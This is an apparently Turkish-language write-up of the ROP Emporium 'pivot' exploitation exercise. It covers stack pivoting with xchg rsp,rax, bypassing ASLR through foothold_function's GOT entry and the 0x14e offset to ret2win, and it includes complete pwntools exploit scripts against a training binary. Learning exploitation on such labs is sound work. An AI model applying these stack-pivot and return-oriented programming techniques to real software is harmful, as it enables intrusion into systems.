









# ROP Emporium `pivot` Writeup



Stack içerisinde `ROP` için sadece 3 aşamalı bir yer olduğunu (8 byte x 3) bu yüzden de daha büyük bir `rop chain` için daha büyük bir alan bulup yığının konumunu o alana döndürmemiz beklenmekte...

    [alp@eren]$ gdb -q pivot
    gdb-peda$ run



Öncelikle diğerlerinden farklı olarak programımız iki aşamadan/inputtan oluşmakta.

Bize `libpivot.so` içerisinden `ret2win` fonksiyonunu çağırmamız gerekiyor. Peki ne var bu fonskiyonun içerisinde ?

    gdb -q libpivot.so



`flag.txt` dosyamızı okumamızı sağlayacak komutu çalıştırıyormuş. Bunu bi kenara not edip devam edelim. Programı çalıştırdığımız zaman bize bir adres veriyor. Peki bu adres neyin nesidir ? Öğrenmek için pwnme fonksiyonumuzda ilk `fgets` çağrısının olduğu yere bir breakpoint koyalım.



Şimdi programımızı çalıştıralım ve `ni` diyerek ilk girdimizi girelim



Ve gördüğümüz üzere ilk girdimizin bulunduğu adres ile bize ilk başta söylediği adres aynı. Adresi bize verirken söylediği mesajı hatırlayacak olursak demekki buraya dönmemiz beklenmekte. `0x100` yani 256 karakterlik yerimiz mevcut. İkinci beklediği girdide ise `0x40` yani 64 karakterlik yerimiz mevcut. `lea rax, [rbp-0x20]` komutuyla açılan yer ile `mov esi,0x40` ile açılan yeri karıştırmamak lazım. Şöyle ki eğer ikinci girdide 70 tane "A" gönderirsek...



70 karakterden sadece 63 tanesini okuyabilecektir. Ve bize en başta söylediği gibi 23 karakter (three-link chain) ' lik bir ROP yazabiliyoruz. (Diğer seviyelerde de hatırlayacağınız üzere zaten offsetimiz 40 karakterdi)

O zaman asıl `ROP` komutlarımızı ilk girdimizde rahat rahat gireceğiz. Daha sonra ikinci girdi de max 3 komut ile bize en başta vermiş olduğu yani asıl ROP komutlarımızın olduğu yere sıçramasını sağlayacağız. Bunun için elimizde neler var olduğuna `objdump` ile bir bakalım



`usefulGadgets` içerisinde bulunan `xchg rsp,rax` işimizi görebilir. `rsp` adresini bize verdiği adres yaparsak eklediğimiz tüm ROP komutları sorunsuz bir şekilde çalışacaktır. Bunun için `rax` registerına pivot adresimizi yazmamız gerekli. Bir `pop rax, ret` komutu olsa ne güzel olurdu derseniz eğer o da `usefulGadgets` içerisinde mevcut :) O halde ikinci girdimizde kullanacağımız herşey hazır.

```python
# ROP Emporium pivot Exploit

from pwn import *

elf = ELF('pivot')

# ROP Gadgets
pop_rax = p64(0x400b00) # pop rax ; ret
xchg_rsp_rax = p64(0x400b02) # xchg rsp,rax ; ret

# Run pivot & take pivot address
e = process('./pivot')
pivot = int(e.recv().splitlines()[4].split()[-1], 16)
print ("\n[*] Pivot Address : " + hex(pivot))

# Send ROP Chain to pivot address
rop = "rop chain"
e.sendline(rop)

# Return pivot address
payload = ("A"*40).encode() # offset 40
payload += pop_rax
payload += p64(pivot)
payload += xchg_rsp_rax

e.sendline(payload)
print (e.recvall())
```

Sıra geldi zurnanın zırt dediği yere. `ret2win` fonksiyonunu çağıracaz çağırmasına da bu fonksiyon `pivot` içerisinde değil `libpivot.so` içerisinde kullanılmış. Eee `aslr` korumasının da açık olduğunu düşünürsek işimiz biraz zorlaşıyor. Ancak `libpivot.so` içerisinde bulunan ve fonskiyonumuzda da çağrılmış olan bir fonskiyonumuz var.


Ancak programımızın normal akışında bu fonksiyonda çağrılmıyor o yüzden bizim çağırmamız gerekecek, fonksiyonunun adresini bi kenara not edelim.

`ret2win` fonksiyonuna ulaşmak için `foothold_function` fonksiyonunun `.got.plt` girdisini bulmamız lazım.

    objdump -R pivot



Adresimizi bulduk şimdi `libpivot.so` içerisinde `foothold_function` ile `ret2win` arasındaki offseti bulalım

```bash
objdump -d libpivot.so | grep "ret2win"                  
  0000000000000abe <ret2win>:
objdump -d libpivot.so | grep "foothold"
  0000000000000970 <foothold_function>:
```

`0xabe - 0x970` => `0x14e` offsetimizide bulduk.

Artık `foothold_function` fonksiyonunu çağırıp daha sonra `GOT` girişini doldurabiliriz. Bunun için birkaç `rop Gadgets` ihtiyacımız olacak

```python
# ROP Emporium pivot Exploit

from pwn import *

elf = ELF('pivot')

foothold_func = p64(0x400850)
foothold_func_got_plt = p64(0x602048)
#ROP Gadgets
pop_rax = p64(0x400b00) # pop rax ; ret
xchg_rsp_rax = p64(0x400b02) # xchg rsp,rax ; ret
mov_rax = p64(0x400b05) # mov rax, qword pr [rax] ; ret
add_rax_rbp = p64(0x400b09) # add rax,rbp ; ret
pop_rbp = p64(0x400900) # pop rbp ; ret
call_rax = p64(0x40098e) # call rax

# Run pivot & take pivot address
e = process('./pivot')
pivot = int(e.recv().splitlines()[4].split()[-1], 16)
print ("\n[*] Pivot Address : " + hex(pivot))

# Send ROP Chain to pivot address
rop = foothold_func
rop += pop_rax
rop += foothold_func_got_plt
rop += mov_rax
rop += pop_rbp
rop += p64(0x14e)
rop += add_rax_rbp
rop += call_rax

e.sendline(rop)

# Return pivot address
payload = ("A"*40).encode() # offset 40
payload += pop_rax
payload += p64(pivot)
payload += xchg_rsp_rax

e.sendline(payload)
print (e.recvall())
```

Artık çalıştırmaya hazır

 
